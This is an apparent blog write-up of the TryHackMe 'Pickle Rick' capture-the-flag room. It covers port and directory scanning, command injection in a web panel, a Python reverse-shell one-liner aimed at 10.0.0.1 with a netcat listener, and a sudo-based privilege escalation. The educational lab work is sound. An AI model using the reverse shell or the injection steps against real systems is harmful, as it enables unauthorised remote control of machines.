 ```yaml
---
title: TryHackMe Pickle Rick [CHALLENGE]
date: 2024-03-09 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg
---
```

A Rick and Morty CTF. Help turn Rick back into a human! Know basic network service exploitation and linux command line.

## **Reconnaissance**

```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 02:33 EST
Nmap scan report for 10.10.22.145
Host is up (0.31s latency).
Not shown: 65531 closed tcp ports (reset), 2 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a4:5b:39:c3:e5:48:9d:dd:d1:61:8a:33:57:10:2b:82 (RSA)
|   256 a4:d4:00:71:84:6c:ff:08:3d:d5:b0:b6:b9:04:7a:9b (ECDSA)
|_  256 c6:0a:68:60:ad:2b:ae:88:d0:3d:4c:a6:1c:99:70:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 22/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - Web server is running, we can try accessing that.
	- There is a public facing website with an Apache HTTP Server with a `version 2.4.18` running on `Ubuntu`

- 22 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.

## **Enumeration**
---

### 80 HTTP

Before anything else, let us first check how the website looks like.

![Desktop View](/assets/images/pickle-rick/webpage.png){: width="972" height="589" }

Inspecting the source code gave us something helpful!

![Desktop View](/assets/images/pickle-rick/page-source.png){: width="972" height="589" }
> Username: R1ckRul3s
{: .prompt-tip }
Now let us scan what other directories this website can give using **`gobuster`**

```bash
gobuster dir -u $TARGET_IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t20
```
**`-w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`**: Specifies the wordlist (dictionary) file to use for directory and file names.

**`-t 20`**: Sets the number of concurrent threads to 30, which means it will perform 30 requests simultaneously.

```text
/assets               (Status: 301) [Size: 313] [--> http://10.10.18.137/assets/]
/server-status        (Status: 403) [Size: 300]
```
Looks like we have some interesting directories here.

![Desktop View](/assets/images/pickle-rick/assets-page.png){: width="972" height="589" }

The `/assets ` can be significant as it might allow users to execute the uploaded file on the server. Or maybe what's interesting is that we have a `portal.jpg`which tell us there could be some sort of login form especially we got some username.

![Desktop View](/assets/images/pickle-rick/server-stats.png){: width="972" height="589" }

The `/server-status` seems to be inaccessible

How about `FILE Busting`?

```bash
gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

```text
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
```
In this web server enumeration, two interesting endpoints stand out for further exploration `/robots.txt` and `/login.php`. 

![Desktop View](/assets/images/pickle-rick/robots.png){: width="972" height="589" }

`/robots.txt` file is often used by website administrators to give instructions to web crawlers and bots about which pages or directories they should or shouldn't access.

![Desktop View](/assets/images/pickle-rick/login.png){: width="972" height="589" }

`/login.php` endpoint appears to be a login page that we can use to possibly login using credentials we have found from robots.txt and source code.


## **Gaining an Initial Foothold**

Upon logging in, it looks like we can execute some linux command on the command panel. You can try entering all the linux commands you like and see if it is working. This is called `Command injection`, a security vulnerability that occurs when an attacker is able to inject and execute arbitrary commands or code within an application's system command execution function. 

This vulnerability typically arises due to insufficient input validation or improper handling of user-controlled data by the application.

See <https://owasp.org/www-community/attacks/Command_Injection>

It looks like the `cat` Linux command is not functioning. Maybe try using other alternatives that has a similar function. I tried searching for an alternative. See <https://linuxhandbook.com/view-file-linux/>


![Desktop View](/assets/images/pickle-rick/first.png){: width="972" height="589" }

> Do not forget to find first ingredient
{: .prompt-danger }

Alternatively, we are also able to get a reverse shell from the command panel to get a more robust control over the target machine. But first, let’s us check if there is a python binary installed on the system.

```bash
which python
or
which python3
```
![Desktop View](/assets/images/pickle-rick/python3.png){: width="972" height="589" }

As we can see python3 is installed, which means we can be able to get a python reverse shell. On the command panel, we can enter:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> Do not forget to change the IP and port
{: .prompt-warning }

Before entering the command on the panel, setup a netcat listener to catch a reverse-shell 

```bash
nc -lnvp <PORT>
```

Upon entering, you should catch a reverse shell by now from the netcat listener we have established earlier.

![Desktop View](/assets/images/pickle-rick/revshell.png){: width="972" height="589" }

This is a dumb shell and we have to stabilise it to have a more beautiful and functional shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='clear -lsaht --color=auto'

Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
![Desktop View](/assets/images/rootme/stable-shell.png){: width="972" height="589" }

Thanks to S1REN! <https://sirensecurity.io/blog/break-out-get-that-tty/>

> Do not forget to find the second ingredient
{: .prompt-warning }



## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that the permissions granted to the user `www-data` on the system has `(ALL) NOPASSWD: ALL` which means that the user `www-data` is allowed to run any command `(ALL)` with `sudo` privileges without being prompted for a password `(NOPASSWD)`.

Technically, this means that `www-data` can execute any command with elevated privileges without needing to enter a password, just like the `root user`.

![Desktop View](/assets/images/pickle-rick/def-priv.png){: width="972" height="589" }

> Do not forget to find the FINAL INGREDIENT
{: .prompt-danger }

## TAKE AWAY CONCEPTS
- Try using alternative linux commands
- Try file busting to find possible directories.
- Always check the sudo privilege before attempting for privilege escalation
- Try finding a vulnerability on the web application first before bruteforcing SSH.